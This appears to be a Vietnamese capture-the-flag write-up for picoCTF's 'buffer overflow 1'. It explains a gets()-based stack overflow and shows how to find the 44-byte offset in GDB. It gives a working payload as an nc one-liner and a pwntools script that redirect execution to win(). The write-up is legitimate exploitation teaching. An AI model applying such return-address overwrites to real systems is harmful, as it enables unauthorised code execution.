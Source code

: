 # buffer overflow 1

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Chỉ khi chạy hàm win thì flag mới được in ra, vậy chúng ta phải gọi được hàm win. Ở đây hàm win không được gọi đến nhưng chúng ta có thể gọi đến nó bằng cách ghi đè địa chỉ trở về (return address) vào stack tại ô nhớ ghi địa chỉ trả về. Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. 
- Thanh ghi EIP (trong kiến trúc 16 bit gọi là thanh ghi IP, trong kiến trúc 32 bit gọi là EIP, trong kiến trúc 64 bit gọi là RIP) là thanh ghi con trỏ lệnh, nó dùng để lưu địa chỉ của câu lệnh tiếp theo được thực hiện.
- Ở bài này, mô hình stack (tại hàm vuln) trông như sau:

![image.png](image.png)

- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 32 ký tự để ghi đè biến buf + 4 ký tự ghi đè EBP. 36 ký tự này gọi là padding. Sau đó ta cần ghi đè địa chỉ của return address bằng địa chỉ của hàm win
- Trên lý thuyết là vậy nhưng thật ra padding sẽ khác (do sự căn chỉnh stack, do compiler hoặc do người ra đề cố tình sửa padding stack) vì vậy thay vì tính bằng tay thì ta nên dùng công cụ. Ở đây mình dùng https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html


## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta mở chương trình bằng GDB

![image.png](image%202.png)

- Generate ra 100 ký tự rồi chạy trong GDB bằng câu lệnh

```cpp
run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```

![image.png](image%203.png)

- Quan sát stack ta thấy EIP ghi “4Ab5”, ta check trên công cụ thì thấy offset là 44, vậy khoảng cách từ biến buf đến thanh ghi EIP thực chất phải là 44 chứ không phải là 36 như ta đã tính tay

![image.png](image%204.png)

b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm:

![image.png](image%205.png)

- Ở đây ta tìm được địa chỉ của hàm win là 0x080491f6. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \xf6\x91\x04\x08
- Vậy payload cần dùng là: 44 ký tự padding +  “\xf6\x91\x04\x08”

c) Bước 3: Viết payload

- Chúng ta có 2 cách để truyền payload bao gồm truyền bằng ống (pipe) và truyền bằng file thực thi
- Cách 1: truyền bằng pipe:
+ Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08
+ Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08"; cat) | nc saturn.picoctf.net 63395
```

![image.png](image%206.png)

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 63395)
payload = b'a'*44 + p32(0x080491f6)

p.sendline(payload)
p.interactive()
```

![image.png](image%207.png)

## 4. Kết luận

- Ta chỉ nên vẽ stack để tham khảo, không nên tính padding bằng stack mà nên dùng tool
- Phương pháp chúng ta vừa dùng được gọi là kỹ thuật quay về phân vùng .text (return to .text). Một tập tin thực thi theo định dạng ELF có nhiều phân vùng. Phân vùng .text là phân vùng chứa tất cả các mã lệnh đã được trình biên dịch tạo ra, và sẽ được bộ vi xử lý thực thi. Kỹ thuật này khá quan trọng vì đôi khi mã lệnh mà chúng ta cần thực thi đã có sẵn trong chương trình nên chúng ta chỉ cần tìm ra địa chỉ các mã lệnh đó là đã có thể thực hiện thành công việc tận dụng lỗi

